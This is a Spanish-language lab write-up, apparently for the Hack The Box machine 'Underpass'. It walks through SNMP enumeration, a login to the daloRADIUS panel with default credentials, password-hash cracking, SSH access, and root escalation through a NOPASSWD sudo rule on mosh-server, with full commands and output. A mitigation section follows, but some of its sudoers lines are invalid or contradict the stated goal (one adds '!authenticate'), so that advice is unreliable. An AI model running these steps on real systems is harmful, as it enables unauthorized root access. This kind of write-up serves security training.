






<h2 style="color: #9FEF00;"> Reconocimientos </h2>
Empezamos lanzando un nmap: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ ping -c 1 10.10.11.48
PING 10.10.11.48 (10.10.11.48) 56(84) bytes of data.
64 bytes from 10.10.11.48: icmp_seq=1 ttl=63 time=105 ms

--- 10.10.11.48 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 105.149/105.149/105.149/0.000 ms
```
TTL cercano a 64, que es para sistemas linux. 

Lanzamos el reconocimiento de puertos: 
```bash 
┌──(kali㉿kali)-[~]
└─$ ports=$(nmap -p- --open -sS -T5 -n -Pn 10.10.11.48 | awk '/^[0-9]+\/tcp/ {split($1,a,"/"); print a[1]}' | paste -sd,)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ echo $ports
22,80
```

Y el escaneo a dichos puertos: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ nmap -p$ports 10.10.11.48 -sCV -v -oN underpass_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-12 08:55 EDT

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 08:55
Completed NSE at 08:55, 0.00s elapsed
Initiating NSE at 08:55
Completed NSE at 08:55, 0.00s elapsed
Initiating NSE at 08:55
Completed NSE at 08:55, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.87 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

Accedemos a la direcciòn y vemos la pàgina de `itworks`



Desde aquì no vemos nada interesante, podemos intentar hacer un escaneo pero ahora por UDP. 

```bash 
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ nmap -sU 10.10.11.48 --top-ports=100             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-12 09:08 EDT
Nmap scan report for 10.10.11.48
Host is up (0.20s latency).
Not shown: 97 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct

Nmap done: 1 IP address (1 host up) scanned in 125.14 seconds
```

Veomos varios protocolos como SNMP para diagnositicos de equipos de red, radius para autenticación de usuarios  y radacct en el puerto 1813 para la gestión de radius. Primero vamos a enumerar `SNMP`. 

**SNMP (Simple Network Management Protocol)** es un protocolo de red que permite gestionar y monitorear dispositivos en una red, como routers, switches, servidores, impresoras, etc.

Con SNMP, puedes:

* Leer información sobre el estado del sistema (uso de CPU, memoria, interfaces de red, etc.).
* Detectar errores o fallos.
* Configurar ciertos parámetros del dispositivo (en versiones más avanzadas).

La comunicación se basa en un modelo cliente/servidor. El servidor SNMP (agente) se ejecuta en el dispositivo, y el cliente (como `snmpwalk`) consulta información.

Podemos aplicar el siguiente comando para enumerar primero `SNMP`:

```bash
snmpwalk -c public -v2c 10.10.11.48
```
> que se utiliza para **consultar información en un dispositivo que soporta SNMP** (Simple Network Management Protocol). A continuación, te explico con detalle cada parte del comando y qué es SNMP:


* `snmpwalk`: herramienta de línea de comandos que **recorre recursivamente** el árbol de información gestionada (MIB) a través de SNMP y muestra los valores.

* `-c public`: define la **community string**, que actúa como una contraseña para acceder al agente SNMP. `"public"` es el valor por defecto para lectura (read-only). Es un valor inseguro si no se cambia en producción.

* `-v2c`: indica la versión del protocolo SNMP a usar. En este caso, **SNMP v2c**:

  * V1: básico.
  * **V2c**: más eficiente, pero **sin seguridad criptográfica**.
  * V3: añade **seguridad (autenticación y cifrado)**.

* `10.10.11.48`: es la dirección IP del dispositivo que quieres consultar.

---


sta es parte de la salida del comando, que está organizado por grupos de MIBs (grupos de información):: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ snmpwalk -c public -v2c 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (5128405) 14:14:44.05
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E9 05 0D 00 10 17 00 2B 00 00 
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 1
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 219
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

## 1. Grupo **sys** (1.3.6.1.2.1.1)

Este grupo provee información general del agente SNMP.

| OID               | Nombre                | Valor                                            | Descripción                                                                                                        |
| ----------------- | --------------------- | ------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------ |
| 1.3.6.1.2.1.1.1.0 | **sysDescr.0**        | `"Linux underpass 5.15.0-126-generic … x86_64"`  | Descripción del sistema operativo y versión del kernel.                                                            |
| 1.3.6.1.2.1.1.2.0 | **sysObjectID.0**     | `1.3.6.1.4.1.8072.3.2.10`                        | Identificador único del tipo de dispositivo; conduce a la definición de su MIB específica (aquí, Net-SNMP).        |
| 1.3.6.1.2.1.1.3.0 | **sysUpTime.0**       | `Timeticks: (5128405) 14:14:44.05`               | Tiempo transcurrido (en centésimas de segundo) desde que el agente arrancó.                                        |
| 1.3.6.1.2.1.1.4.0 | **sysContact.0**      | `"steve@underpass.htb"`                          | Persona de contacto para el administrador del dispositivo.                                                         |
| 1.3.6.1.2.1.1.5.0 | **sysName.0**         | `"UnDerPass.htb is the only daloradius server…"` | Nombre asignado al dispositivo en la red (hostname).                                                               |
| 1.3.6.1.2.1.1.6.0 | **sysLocation.0**     | `"Nevada, U.S.A. but not Vegas"`                 | Ubicación física del dispositivo, según configuración del administrador.                                           |
| 1.3.6.1.2.1.1.7.0 | **sysServices.0**     | `72`                                             | Bit-mask que indica los servicios ofrecidos: suma de capas OSI (p.ej., 72 = capas 3 y 4, apilando valores 64 + 8). |
| 1.3.6.1.2.1.1.8.0 | **sysORLastChange.0** | `Timeticks: (1) 0:00:00.01`                      | Momento (en timeticks) en que cambió por última vez la tabla de MIBs soportadas.                                   |

El objeto sysServices.0 es un entero que describe, mediante una máscara de bits, a qué capas del modelo OSI da servicio el agente SNMP. Cada bit del entero representa una capa:
| Capa OSI           | Valor del bit |
| ------------------ | ------------- |
| 1. Física          | 1             |
| 2. Enlace de datos | 2             |
| 3. Red             | 4             |
| 4. Transporte      | 8             |
| 5. Sesión          | 16            |
| 6. Presentación    | 32            |
| 7. Aplicación      | 64            |
Para calcular el valor de sysServices, se suman los valores de las capas soportadas.
  - Por ejemplo, 72 = 64 (capa 7, Aplicación) + 8 (capa 4, Transporte).
---

## 2. Tabla **sysORTable** (1.3.6.1.2.1.1.9)

Describe cada módulo MIB que el agente soporta.

| OID                                                | Atributo        | Valor / Descripción                              |
| -------------------------------------------------- | --------------- | ------------------------------------------------ |
| …1.2.1 = 1.3.6.1.6.3.10.3.1.1                      | **sysORID**     | OID de la entrada (SNMPv2-MIB)                   |
| …1.3.1 = `"The SNMP Management Architecture MIB."` | **sysORDescr**  | Descripción legible del módulo                   |
| …1.4.1 = `Timeticks: (1)`                          | **sysORUpTime** | Tiempo (ticks) desde que este módulo fue cargado |
| (Y así sucesivamente para cada entrada…)           |                 |                                                  |

En la salida hay diez entradas (`sysORID.1` a `sysORID.10`), cada una indicando un sub-módulo SNMP soportado: procesamiento de mensajes, notificaciones, control de acceso, TCP, UDP, IP, etc. Esto confirma que tu agente Net-SNMP implementa la arquitectura completa de SNMPv2.

---

## 3. Grupo **hrSystem** (1.3.6.1.2.1.25.1) – Host Resources MIB

Este grupo proporciona información sobre el host (sistema operativo, memoria, procesos, etc.).

| OID                  | Nombre                            | Valor                                        | Descripción                                                                                            |
| -------------------- | --------------------------------- | -------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| 1.3.6.1.2.1.25.1.1.0 | **hrSystemUptime**                | `Timeticks: (5129815) 14:14:58.15`           | Tiempo transcurrido desde arranque (similar a sysUpTime pero en MIB de recursos).                      |
| 1.3.6.1.2.1.25.1.2.0 | **hrSystemDate**                  | `Hex-STRING: 07 E9 …`                        | Fecha y hora actuales del sistema codificadas en formato DateAndTime (cada byte tiene un significado). |
| 1.3.6.1.2.1.25.1.3.0 | **hrSystemInitialLoadDevice**     | `393216`                                     | Dispositivo (identificado por un índice interno) desde el que arrancó el sistema.                      |
| 1.3.6.1.2.1.25.1.4.0 | **hrSystemInitialLoadParameters** | `"BOOT_IMAGE=/vmlinuz-5.15.0-126-generic …"` | Parámetros de arranque del kernel.                                                                     |
| 1.3.6.1.2.1.25.1.5.0 | **hrSystemNumUsers**              | `1`                                          | Número actual de usuarios conectados (sesiones).                                                       |
| 1.3.6.1.2.1.25.1.6.0 | **hrSystemProcesses**             | `219`                                        | Contador de procesos (threads/hilos) en ejecución.                                                     |
| 1.3.6.1.2.1.25.1.7.0 | **hrSystemMaxProcesses**          | `0`                                          | Límite máximo de procesos soportados (0 = sin límite definido).                                        |

### Ejemplo de interpretación práctica

* **Diagnóstico rápido**: Si `hrSystemNumUsers` crece inesperadamente (p.ej., de 1 a 50), se podría sospechar un ataque de fuerza bruta o sesiones zombie.
* **Monitoreo de arranques**: Comparar `sysUpTime` y `hrSystemUptime` indica si el agente SNMP o el sistema operativo se reinició recientemente.
* **Auditoría de software**: `sysObjectID` te lleva a documentación de Net-SNMP, permitiéndote explorar comandos y extensiones disponibles.


Para que las herramientas interpreten esos OIDs y los traduzcan a nombres legibles (como sysName.0) podemos activar la carga de los ficheros MIB. 
```bash
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ sudo vi /etc/snmp/snmp.conf

# Descomentamos la ultima linea ->


# As the snmp packages come without MIB files due to license reasons, loading
# of MIBs is disabled by default. If you added the MIBs you can reenable
# loading them by commenting out the following line.
# mibs : <- comentamos esta linea

# If you want to globally change where snmp libraries, commands and daemons
# look for MIBS, change the line below. Note you can set this for individual
# tools with the -M option or MIBDIRS environment variable.
#
imibdirs /usr/share/snmp/mibs:/usr/share/snmp/mibs/iana:/usr/share/snmp/mibs/ietf
```

E instalamos lo siguiente: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ sudo apt-get  install snmp-mibs-downloader
```
Con esto podremos ver una salida màs legible. 

Las lineas que mas nos interesan pueden ser las siguientes: 
```bash 
SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
```
Tenemos el nombre del dominio, y el nombre de la aplicaciòn web para la gestiòn gráfica de un servidor RADIUS, freeRADIUS por lo general. 
Podemos visitar el repositorio del proyectoen github ya que se trata de software de código abierto. 



Veamos si està instalado en el servidor. 

```bash 
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ curl "http://underpass.htb/daloradius/"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at underpass.htb Port 80</address>
</body></html>
```

Parece que existe pero no tenemos permisos para acceder. 
Con una búsqueda en internet podemos ver las rutas en las que uno puede loggearse para, por ejemplo, añadir un usuario -> [Instrcciones](https://kb.ct-group.com/radius-holding-post-watch-this-space/) 

Así que accedemos a esta ruta. 



Nos redirige a un loggin, intentamos acceder con las credenciales por defecto, que buscando por internet nos indican que son `administrator/radius` y parece que funcionan:



<h2 style="color: #9FEF00;"> Acceso inicial.</h2>

Una vez dentro del panel, podemos ir a lista de usuarios



Vemos 2 usuarios, el primero parece tener un hash en el campo de la contraseña. 
Si sabemos que la contraseña no está salteada, podemos ir a crackstation: 



Con la contraseña, podemos intentar conectarnos con ssh: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ ssh svcmosh@10.10.11.48
svcmosh@10.10.11.48's password:
Permission denied, please try again.
```

Intenamos con mayùsculas: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ ssh svcMOSH@10.10.11.48
svcMOSH@10.10.11.48's password: 
Permission denied, please try again.
svcMOSH@10.10.11.48's password: 

                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/underpass]
└─$ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 System information as of Tue May 13 03:38:07 AM UTC 2025

  System load:  0.0               Processes:             231
  Usage of /:   59.2% of 6.56GB   Users logged in:       1
  Memory usage: 18%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%
Last login: Tue May 13 01:07:21 2025 from 127.0.0.1
svcMosh@underpass:~$ ls
typescript  user.txt
```

<h2 style="color: #9FEF00;">Escalada de privilegios.</h2>

Lo primero que intentamos ver son nuestros privilegios de sudo: 

```bash 
svcMosh@underpass:~$ sudo -l 
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Lo ejecutamos: 
```bash 
svcMosh@underpass:~$ sudo mosh-server


MOSH CONNECT 60001 DLB7Fr1CXKnfRGwl2f8PPg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 8645]
```

Parece que obtenemos un puerto y un string, intentamos conectarnos: 
```bash
svcMosh@underpass:~$ mosh-client 127.0.0.1 
mosh-client (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Usage: mosh-client [-# 'ARGS'] IP PORT
       mosh-client -c
svcMosh@underpass:~$ mosh-client 127.0.0.1 60001
MOSH_KEY environment variable not found.
```

Podemos inferir el string es la `HOST-KEY`
```bash 
svcMosh@underpass:~$ MOSH_KEY=+1W8nqLE1xyF2j0bPqSlOg mosh-client 127.0.0.1 60001

root@underpass:~# whoami
root
root@underpass:~# ls
root.txt
root@underpass:~# cat root.txt
beaa7ccebc91cf9668f32fc04b7dfe9d
root@underpass:~#
```

- 127.0.0.1 60001: loopback y puerto donde mosh-server escucha.
- MOSH_KEY: permite que el cliente firme sus paquetes y el servidor los acepte.

Cuando mosh-server arranca, por defecto ejecuta un shell de login (p. ej. /bin/bash) con los permisos de su usuario (aquí, root). El protocolo Mosh redirige tu terminal al proceso de shell que él mismo ha lanzado.

  - El servidor corre como root.
  - El shell que controla corre como root
  - Por tanto, la sesión mosh-client ↔ mosh-server nos da un prompt root sin pasar por SSH ni pedir contraseña.


<h2 style="">Mitigaciones.</h2>

Para mitigar este vector de escalada —el permiso **NOPASSWD** sobre `mosh-server` que permite a un usuario sin más credenciales obtener un shell **root**— conviene aplicar varios principios de seguridad centrados en el **principio de menor privilegio**, en reforzar la configuración de **sudoers** y en endurecer el propio servicio Mosh. A continuación tienes una serie de recomendaciones prácticas:

---

## 1. Restringir o eliminar permisos en sudoers

1. **Eliminar la regla NOPASSWD**
   En lugar de permitir ejecutar `mosh-server` sin contraseña, exigir siempre autenticación:

   ```diff
   - svcMosh ALL=(ALL) NOPASSWD: /usr/bin/mosh-server
   + svcMosh ALL=(ALL)    : /usr/bin/mosh-server
   ```

   De ese modo, aunque siga pudiendo invocar el binario, tendrá que aportar su contraseña de sudo y la sesión quedará registrada.

2. **Limitar el alcance de la regla**
   Si se necesita mantener un permiso sobre Mosh, hay que acotarlo al usuario real bajo el que deba correr (por ejemplo, obligarlo a lanzarlo como un usuario de escaso privilegio):

   ```text
   svcMosh ALL=(moshuser) NOPASSWD: /usr/bin/mosh-server
   ```

   De esta forma, `mosh-server` nunca se ejecuta como root y, por tanto, no ofrece shell privilegiado.

3. **Usar `validate_commands` o `noexec`**
   — En `/etc/sudoers` podemos habilitar `noexec` para impedir que los comandos lancen shells secundarios:

   ```text
   Defaults!/usr/bin/mosh-server noexec
   ```

   — O usar `command_alias` y `validate_commands` para asegurarte de que solo se permite la ejecución de ese binario con parámetros concretos.

---

## 2. Hardening del servicio Mosh

1. **Deshabilitar Mosh si no es imprescindible**
   Si el único fin de `mosh-server` es la administración local, se puede considerar quitarlo del PATH de los usuarios con sudo o desinstalarlo:

   ```bash
   sudo apt-get remove --purge mosh
   ```

2. **Control de puertos UDP**
   Restringircon firewall (ufw, iptables) los rangos de UDP que Mosh usa (por defecto, 60000–61000), y sólo permitir tráfico desde clientes de confianza o redes internas.

3. **Usar AppArmor/SELinux**
   Crear un perfil de AppArmor que limite lo que `mosh-server` puede hacer (por ejemplo, evitar la ejecución de shells externos) o un módulo SELinux para confinarlo.

---

## 3. Auditoría y monitorización

1. **Revisión periódica de sudoers**
   Incluir en los checklist de seguridad una inspección trimestral de todas las reglas en `/etc/sudoers` y `/etc/sudoers.d/`, buscando entradas `NOPASSWD` o `(ALL)` demasiado permisivas.

2. **Registros de sesiones**
   Configurar auditd o sudosh para capturar los comandos lanzados con sudo, de modo que cualquier intento de escalada deje traza forense.

3. **Alertas de actividad inusual**
   Integrar en el SIEM alertas cuando un usuario invoque `mosh-server` o cuando se levanten puertos UDP efímeros en el rango de Mosh fuera de horario de mantenimiento.

---

## 4. Principio de menor privilegio y segmentación

* **Cuentas dedicadas**: crear un usuario específico (`moshuser`) sin privilegios para ejecutar el servicio, y hacer que los administradores usen sus propias cuentas separadas.
* **Separación de funciones**: los operadores RADIUS o de otros servicios no deberían recibir permisos sudo sobre binarios de administración de terminales.

---

### Ejemplo de regla sudoers más segura

```text
# Sólo permite ejecutar mosh-server como 'moshuser', con contraseña
Defaults:svcMosh !authenticate
svcMosh ALL=(moshuser) PASSWD: /usr/bin/mosh-server
```

Con este planteamiento:

1. **No hay NOPASSWD**: se pide contraseña de sudo.
2. **El binario corre como un usuario sin privilegios**: nunca como root.
3. **Se registran intentos y se controla el contexto de ejecución**.


